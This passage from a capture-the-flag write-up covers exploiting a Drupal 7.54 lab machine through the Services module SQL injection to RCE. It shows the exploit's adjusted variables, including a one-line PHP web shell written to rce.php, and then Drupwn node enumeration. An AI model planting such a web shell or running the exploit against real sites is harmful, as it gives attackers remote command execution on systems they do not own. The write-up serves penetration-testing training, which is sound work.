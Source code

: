 This is a PHP script that uses a SQL injection vulnerbility to grab cache contents  and the admin creds. The exploit is explained in great detail at the link provided in the exploit:

{% embed url="https://www.ambionics.io/blog/drupal-services-module-rce" %}

After reviewing the code, we notice that we'll need to make a few minor adjustments in order to use it against our target:

> $url = 'http://vmweb.lan/drupal-7.54';&#x20;
>
> $endpoint\_path = '/rest\_endpoint';&#x20;
>
> $endpoint = 'rest\_endpoint';
>
> 'filename' => 'rce.php',
>
> 'data' => '\<?php system($\_GET\["cmd"]); ?>'

Unfortunately, when we visit the page at [http://10.10.10.9/rest\_endpoint](http://10.10.10.9/rest\_endpoint) we get an error:

![](<../../.gitbook/assets/3 (6).JPG>)

## Drupwn

Let's run this tool to see if we can find any nodes.&#x20;

> Most content on a Drupal website is stored and treated as "nodes". A node is any piece of individual content, such as a page, poll, article, forum topic, or a blog entry. Comments are not stored as nodes but are always connected to one. Treating all content as nodes allows the flexibility to create new types of content. It also allows you to painlessly apply new features or changes to all content of one type.

{% embed url="https://www.drupal.org/docs/7/nodes-content-types-and-fields/about-nodes" %}

One of the options we can scan for are "nodes" using this tool, and so let's do that:

{% hint style="danger" %}
NOTE: When we ran the scan and left it for a while, it seemed to crash the target. It may be a conincidence, but the target seems to be quite slow anyway in general based on when we were browsing the site and the incredibly slow gobuster scan we ran.
{% endhint %}
